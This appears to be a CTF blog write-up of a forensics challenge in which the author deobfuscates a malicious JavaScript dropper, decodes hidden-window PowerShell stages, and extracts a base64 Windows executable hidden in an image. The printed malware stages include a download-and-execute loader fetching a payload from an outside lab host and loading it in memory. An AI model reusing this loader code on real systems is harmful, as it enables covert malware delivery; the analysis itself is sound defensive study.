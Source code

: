 ```yaml
---
layout: post
title: University CTF 2023:Brains and bytes
date: '2023-12-10 19:40:10 +0300'
image: /assets/img/cover_images/47.jpg
categories: [CTF, University CTF 2023 Brains and bytes]
---
```


## Forensics
### One Step Closer
> Tasked with defending the antidote's research, a diverse group of students united against a relentless cyber onslaught. As codes clashed and defenses were tested, their collective effort stood as humanity's beacon, inching closer to safeguarding the research for the cure with every thwarted attack. A stealthy attack might have penetrated their defenses. Along with the Hackster's University students, analyze the provided file so you can detect this attack in the future. 
{: .prompt-info }

We are provided with vaccine.js file which is somehow obfuscated, so after analysing the file we come across a url `http://infected.human.htb/d/BKtQR`

```javascript
lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.open("GET", "http://infected.human.htb/d/BKtQR", false);
```

Let's try to download the file using the docker ip and port 

```shell
http://94.237.57.242:50411/d/BkQR
```

After making the request we get a very huge obfuscated file which is hard to read. So i scrolled until the end and found this powershell code written in reverse. 

```powershell
StrReverse("'DxujWO$ dnammoc- eliforPoN- ssapyb ycilopnoitucexe- neddih elytswodniw- exe.llehsrewop")
```

The file was suspicious, hard to read and understand "obviously because it was written by the zombies" i decided to upload it to virus total and see the behaviour.

![img-description](/assets/img/brains-and-bytes/1.png)

Process 4080 reveals the command executed by the file. it is base64 encoded and so we decode it
```powershell
4080 - "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -command '$Codigo = ''Jem9tYmllcBpem9tYmllcG0em9tYmllcYQBnem9tYmllcGUem9tYmllcVQByem9tYmllcGwem9tYmllcIe 
...
<SNIP>
...
mllc='';$OWjuxd = [system.Text.encoding]::Unicode.GetString([system.Convert]::Frombase64string($codigo.replace(''em9tYmllc'',''A'')));powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command $OWjuxD'
```

From the code we can see that em9tYmllc is being replaced with A and so we replace all the instances of em9tYmllc with A to get a clean base64 encoded string "free from any zombie virus"

```powershell
GetString([system.Convert]::Frombase64string($codigo.replace(''em9tYmllc'',''A'')));
```

```shell
JABpAG0AYQBnAGUAVQByAGwAIAA9ACAAJwBoAHQAdABwADoALwAvAGkAbgBmAGUAYwB0AGUAZAAuAHoAbwBtAGIAaQBlAC4AaAB0AGIALwBXAEoAdgBlAFgANwAxAGEAZwBtAE8AUQA2AEcAdwBfADEANgA5A
...
<SNIP>
...
wBnAD0AJwAgACwAIAAnAGQAZgBkAGYAZAAnACAALAAgACcAZABmAGQAZgAnACAALAAgACcAZABmAGQAZgAnACAALAAgACcAZABhAGQAcwBhACcAIAAsACAAJwBkAGUAJwAgACwAIAAnAGMAdQAnACkAKQA=
``` 

We then decode the base64 string and discover another powershell script

```powershell
d5dff21b17ee-1f48-5c74-c934-d73c2a63=nekot&aidem=tla?txt.refsnart/o/moc.topsppa.f93c6-gnikcah/b/0v/moc.sipaelgoog.egarotsesaberif//:sptth$imageUrl = 'http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg';$webClient = New-Object System.Net.WebClient;$imageBytes = $webClient.DownloadData($imageUrl);$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);$startFlag = '<<BASE64_START>>';$endFlag = '<<BASE64_END>>';$startIndex = $imageText.IndexOf($startFlag);$endIndex = $imageText.IndexOf($endFlag);$startIndex -ge 0 -and $endIndex -gt $startIndex;$startIndex += $startFlag.Length;$base64Length = $endIndex - $startIndex;$base64Command = $imageText.Substring($startIndex, $base64Length);$commandBytes = [System.Convert]::FromBase64String($base64Command);$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes);$type = $loadedAssembly.GetType('Fiber.Home');$method = $type.GetMethod('VAI').Invoke($null, [object[]] ('ZDVkZmYyMWIxN2VlLTFmNDgtNWM3NC1jOTM0LWQ3M2MyYTYzPW5la290JmFpZGVtPXRsYT90eHQucmVmc25hcnQvby9tb2MudG9wc3BwYS5mOTNjNi1nbmlrY2FoL2IvMHYvbW9jLnNpcGFlbGdvb2cuZWdhcm90c2VzYWJlcmlmLy86c3B0dGg=' , 'dfdfd' , 'dfdf' , 'dfdf' , 'dadsa' , 'de' , 'cu')
```

From the script we see that its trying to download an image from this `http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg` url and so we try to get it using our docker ip and port

![img-description](/assets/img/brains-and-bytes/2.png)

Next we use exiftool and find some interesting stuff.

```shell
> exiftool WJveX71agmOQ6Gw_1698762642.jpg
ExifTool Version Number         : 12.70
File Name                       : WJveX71agmOQ6Gw_1698762642.jpg
Directory                       : .
File Size                       : 2.9 MB
File Modification Date/Time     : 2023:12:06 13:51:30+03:00
File Access Date/Time           : 2023:12:10 19:25:29+03:00
File Inode Change Date/Time     : 2023:12:10 19:25:24+03:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
```

2.9 MB i knew something must be hidden in the file so i tried to change the image extension to .png and used zsteg 

```shell
> zsteg img.png
extradata:0         .. text: "<<BASE64_START>>TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAABQRQAA
...
<SNIP>
...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEhUQnswbjNfU3QzcF9jbDBzM3JfdDBfdGgzX2N1cjN9Cg==<<BASE64_END>>\n\n"
```

This was a very large base64 string. I took the string to cyber chef for a nice "zombie recipe"

![img-description](/assets/img/brains-and-bytes/3.png)

We can see `MZ` meaning it is a windows executable file.So i decided to just continue scrolling and boom there's the cure to the zombie virus.

![img-description](/assets/img/brains-and-bytes/4.png)

These zombies really used their brains to byte the system.
